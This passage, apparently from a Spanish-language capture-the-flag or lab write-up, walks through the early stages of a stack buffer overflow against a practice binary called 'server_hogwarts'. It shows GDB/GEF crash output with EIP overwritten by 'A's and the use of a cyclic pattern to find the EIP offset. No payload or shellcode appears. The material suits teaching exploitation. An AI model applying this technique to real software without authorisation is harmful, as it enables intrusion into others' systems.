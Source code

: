 ```bash
$eflags: [zero carry parity adjust SIGN trap INTERRUPT direction overflow RESUME virtualx86 identification]
$cs: 0x23 $ss: 0x2b $ds: 0x2b $es: 0x2b $fs: 0x00 $gs: 0x63 
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── stack ────
0xffffcc30│+0x0000: "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA[...]"    ← $esp
0xffffcc34│+0x0004: "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA[...]"
0xffffcc38│+0x0008: "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA[...]"
0xffffcc3c│+0x000c: "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA[...]"
0xffffcc40│+0x0010: "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA[...]"
0xffffcc44│+0x0014: "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA[...]"
0xffffcc48│+0x0018: "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA[...]"
0xffffcc4c│+0x001c: "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA[...]"
──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── code:x86:32 ────
[!] Cannot disassemble from $PC
[!] Cannot access memory at address 0x41414141
──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── threads ────
[#0] Id 1, Name: "server_hogwarts", stopped 0x41414141 in ?? (), reason: SIGSEGV
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── trace ────
```
Con **200 A's** es suficiente para que el binario deje de funcionar, pero pueden ser menos y es lo que debemos identificar.

<br>

<h3 id="offset">Quinto Paso: Obteniendo el offset</h3>

Desde aquí, podemos identificar el **offset que es el número exacto de bytes que necesitas para sobrescribir el EIP**.

Para esto, podemos generar un patrón de distintos caracteres para que sea más fácil identificar el **offset**.

Desde **gdb**, usamos el comando **pattern create** para que nos dé 1024 caracteres que podamos usar: 
```bash
gef➤  pattern create
[+] Generating a pattern of 1024 bytes (n=4)
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaa...
```

Ahora, ejecutamos el binario con **r** y enviamos los caracteres que tenemos:
```bash
[ Legend: Modified register | Code | Heap | Stack | String ]
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── registers ────
$eax   : 0xffffcbbc  →  "aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaama[...]"
$ebx   : 0x62616162 ("baab"?)
$ecx   : 0xffffd180  →  "our spell: "
$edx   : 0xffffcfc4  →  "our spell: "
$esp   : 0xffffcc30  →  "eaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqa[...]"
$ebp   : 0x62616163 ("caab"?)
$esi   : 0x080b3158  →  "../csu/libc-start.c"
$edi   : 0xffffd178  →  "\nEnter your spell: "
$eip   : 0x62616164 ("daab"?)
$eflags: [zero carry parity adjust SIGN trap INTERRUPT direction overflow RESUME virtualx86 identification]
$cs: 0x23 $ss: 0x2b $ds: 0x2b $es: 0x2b $fs: 0x00 $gs: 0x63 
```